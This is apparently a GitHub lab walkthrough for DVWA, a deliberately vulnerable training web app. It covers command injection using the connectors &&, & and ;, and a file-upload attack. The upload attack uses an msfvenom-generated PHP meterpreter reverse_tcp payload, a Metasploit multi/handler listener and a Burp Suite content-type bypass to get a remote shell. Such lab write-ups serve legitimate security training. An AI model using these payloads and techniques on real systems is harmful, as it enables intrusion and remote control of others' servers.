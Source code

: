 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you will be able to run commands on it.

Run msfconsole and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options```` to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ````exploit```` in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

On medium, dvwa verify that the actual file is the type allowed, so for this we use burpsuite to intercept the traffic and change the type on the header before we forwarded to the browser.

First go to the extension you have for proxy and select the one you already (or you should) set up, in this case i named it BurpSuite:

![image](https://github.com/ELRame/HackingTools/assets/82544416/4d6e681e-dd19-4e64-8d92-2e4fc80afb50)

After that, on BuprSuite go to **proxy** manu and turn on the intercept option:

![image](https://github.com/ELRame/HackingTools/assets/82544416/1bbbdfdd-a2ef-4ec7-9748-e4e3b330ce05)

Then go to upload the file and press upload, this make burpsuite pop up with the header, find the **type** and change it for ````image/jpeg````, then click in the **forward** button:

![image](https://github.com/ELRame/HackingTools/assets/82544416/ad1f49b5-faa5-4a3e-96b7-fe3aba14750d)

![image](https://github.com/ELRame/HackingTools/assets/82544416/9e996c60-524d-4abe-b6b7-7e5f89c1dfb8)

Now just follow the same steps than the first example and you'll have a meterpreter session.
